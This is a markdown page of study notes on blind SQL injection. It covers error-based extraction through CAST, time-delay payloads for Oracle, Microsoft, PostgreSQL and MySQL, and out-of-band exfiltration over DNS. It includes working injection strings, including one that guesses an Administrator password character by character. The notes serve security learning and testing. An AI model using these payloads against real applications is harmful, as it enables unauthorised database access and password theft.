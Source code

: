 #### Verbose Error Messages
Sometimes able to get app to generate an error message that leaks some of the data that gets returned by query. 
Essentially turns blind SLQi vuln into a visible one. 

Use `CAST()` function to convert one data type to another. 
```
Ex.
  CAST((SELECT example_column FROM example_table) AS int)

ERROR: invalid input syntax for type integer: "Example data"
```

| host | syntax| error |
| ---- | ----- | ----- |
| Microsoft | `SELECT 'foo' WHERE 1 = (SELECT 'secret')` | `Conversion failed when converting the varchar value 'secret' to data type int.` |
| PostgreSQL | `SELECT CAST((SELECT password FROM users LIMIT 1) AS int)` | `invalid input syntax for integer: "secret"` |
| MySQL | `SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret')))` | `XPATH syntax error: '\secret'` |


#### Time Delays
Often possible to exploit blind SQLi by triggering time delays depending on whether an injection condition
is true/false. SQL queries are normally processed synchronously, so the DB delay also delays the HTTP response. 

```
Ex.
   '; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```

Below are the syntaxes to sleep for 10 seconds. 
| host | syntax|
| ---- | ----- |
| Oracle | `dbms_pipe.receive_message(('a'),10)` |
| Microsoft | `WAITFOR DELAY '0:0:10'` |
| PostgreSQL | `pg_sleep(10)` |
| MySQL | `SLEEP(10)` |

#### Out-Of-Band (OAST) 
An app might do an SQL query asynchronously. In that case, you can often exploit the vulnerability by triggering out-of-band network
interactions to a system that you control. They can be triggered based on a condition to infer information one piece
at a time, and (more useful) data can be exfiltrated directly within the network interaction. A variety of protocols can be used, but
DNS is typically the most effective. 

Tool: Burp Collector (pro version only) 
